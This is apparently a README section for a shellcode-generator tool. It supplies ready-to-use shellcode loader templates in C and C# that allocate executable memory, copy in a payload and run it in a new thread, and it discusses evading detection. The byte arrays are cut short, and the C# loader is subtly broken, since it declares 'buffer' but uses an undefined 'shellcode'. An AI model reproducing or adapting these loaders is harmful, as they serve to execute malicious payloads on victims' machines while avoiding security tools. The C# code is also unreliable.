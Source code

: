 Users can choose to execute generated shellcode in this Python script, generated shellcode can also be saved in a binary file. By default, generated shellcode is `NOT EXECUTED` and `NOT SAVED` in a file.

### Simple Shellcode Runner
Simple shellcode loaders in different common languages are provided below to test the generated shellcode conveniently. 

However, if you're interested in evaluating evasion capabilities, be aware that the following shellcode loaders could themselves be detected. For more advanced evasion techniques, you may want to explore alternative shellcode loaders, which are beyond the scope of this README document.

#### C
```c
#include "windows.h"
#include "stdlib.h"

unsigned char shellcode[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0......};  // SHELLCODE HERE

int main()
{
    int length = sizeof(shellcode);
    void* exec = VirtualAlloc(0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(exec, shellcode, length);
    HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
}
```

#### CSharp
```csharp
using System;
using System.Runtime.InteropServices;

namespace runner
{
    public class runner
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void Main(String[] args)
        {
            byte[] buffer= new byte[479] {0x48,0x31,0xd2,0x65,0x48,0x8b,0x42,0x60,0x48......};  // SHELLCODE HERE
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }
    }
}
```
